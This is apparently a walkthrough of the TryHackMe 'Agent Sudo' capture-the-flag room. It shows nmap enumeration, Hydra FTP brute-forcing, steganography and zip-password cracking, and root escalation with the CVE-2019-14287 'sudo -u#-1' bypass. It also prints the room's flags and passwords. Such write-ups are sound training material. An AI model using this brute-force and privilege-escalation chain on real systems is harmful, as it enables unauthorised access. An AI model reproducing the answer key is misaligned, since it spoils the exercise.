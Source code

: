 # TryHackMe - Agent Sudo

## 🛠 Setup

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.123.138
```

---

## 📌 Task 2: Enumerate

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial $IP
```

**Results:**

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)                            
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                          
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                 
|_http-title: Annoucement                                                                    
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


**Q. How many open ports?
A. 3

***Q. How you redirect yourself to a secret page?
A. user-agent

Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 

Install the useer agent to chromium
create a new user agent replacing the user agent with "C"

**Results**

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```


**Q. What is the agent name?
A. chris


## 📌 Task 3: Hash cracking and brute-force

**Q. FTP password
A. crystal

Use Hydra since we know the username is `chris`:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt -u ftp://10.10.123.138
```


**Result:**

```
[21][ftp] host: 10.10.123.138   login: chris   password: crystal
```

Log in and download files:

```bash
ftp chris@10.10.123.138 
mget *
```

We get a message that one of the images has stegonography. Let's install stegseek (because it's super fast)

```bash
sudo apt install stegseek
stegseek cute-alien.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".

**results**
```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Now we have an SSH login for `james`.

```
but first, lets look at cutie.png
stegseek nor steghide support png. instead we'll use binwalk

```bash
binwalk -e cutie.png
```
Extracted a ZIP file.

Crack the zip password using John the Ripper:

```bash
zip2john 8702.zip > zip.john
john zip.john
```
**Results**

```
alien            (8702.zip/To_agentR.txt)     
```

**Q. Zip file password
A. alien
*Read T-AgentR.txt*
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
That was a bit pointless. Anway, we have what we need to answer the questions

**Q. steg password
A. Area51

**Q. Who is the other agent (in full name)?
A. james

**Q. SSH password
A. hackerrules!


## 📌 Task 4: Capture the user flag


**Q. What is the user flag?
A. b03d975e8c92a7c04146cfa7a5a313c7

```bash
ssh james@10.10.123.138
cat user.txt
```

There's the flag and an image. Let's get the image by setting up a web server on our hacked machine

```bash
python3 http.server 1234
In your browser:  
`http://10.10.123.138:1234`
```
Download the image and use Google reverse image search.

**Q. What is the incident of the photo called?
A. Roswell alien autopsy


## 📌 Task 5: Privilege escalation

**Q. CVE number for the escalation 
A. CVE-2019-14287

Check sudo privileges:
```bash
Sudo -l
```
Result:
```
(ALL, !root) /bin/bash
```

a quick google search reveals it's https://www.exploit-db.com/exploits/47502

**Q. What is the root flag?
A. b53a02f55b57d4439e3341834d70c062

Use the exploit:

```bash
sudo -u#-1 /bin/bash
```

**Rooted!**

```bash
cat /root/root.txt
```

**Q. (Bonus) Who is Agent R?
A. DesKel
